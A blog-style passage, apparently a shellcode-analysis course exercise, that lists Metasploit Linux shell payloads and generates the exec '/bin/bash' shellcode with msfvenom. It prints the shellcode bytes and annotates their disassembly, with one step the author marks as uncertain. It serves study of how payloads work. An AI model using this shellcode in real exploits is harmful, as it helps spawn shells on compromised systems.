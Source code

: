 ```
    linux/x86/shell_find_port                           Spawn a shell on an established connection
    linux/x86/shell_find_tag                            Spawn a shell on an established connection (proxy/nat safe)
    linux/x86/shell_reverse_tcp                         Connect back to attacker and spawn a command shell

```

I decided to analyse the following payloads.

### linux/x86/exec CMD="/bin/bash"
I used this one during [Assignment#3](https://marcosvalle.github.io/re/exploit/2018/08/23/egg-hunter.html) for spawning a shell after a buffer overflow using an egg hunter. Now it is time to understand what has happened under the hood.

```
msfvenom -a x86 --platform linux -p linux/x86/exec CMD="/bin/bash" -f c
No encoder or badchars specified, outputting raw payload
Payload size: 45 bytes
Final size of c file: 213 bytes
unsigned char buf[] = 
"\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73\x68"
"\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x0a\x00\x00\x00\x2f"
"\x62\x69\x6e\x2f\x62\x61\x73\x68\x00\x57\x53\x89\xe1\xcd\x80";
```
This is a very simple shellcode, basically the stack is prepared and the syscall is called. However, there is on particularly interesting optimization here:

* Usage of `cwd` instruction to clear out edx. The sign of eax (0 in this case) is copied into dx, therefore clearing it out.

Line-by-line analysis:

```
push   0xb 
pop    eax  ;the first 2 lines set eax=0xb, which is the syscall number for sys_execve
cwd         ;clears edx
push   edx  ;pushes 0 into the stack
pushw  0x632d   ;pushes '-c' into the stack
mov    edi,esp  ;save the stack pointer in edi (points to -c)
push   0x68732f ;save /sh into the stack (little endian)
push   0x6e69622f   ;save /bin into the stack (little endian)
mov    ebx,esp  ;save the stack pointer in ebx (points to /bin/sh)
push   edx  ;push 0 into the stack      
call   0xf  ;probably related to stack alignment, not sure
push   edi  ;push -c again
push   ebx  ;push /bin/sh
mov    ecx,esp  ;save '/bin/sh -c' in ecx
;EAX=0xb
;EBX -> "/bin/sh"
;ECX -> Address of '/bin/sh -c'
;EDX ->
int    0x80; calls execve
```
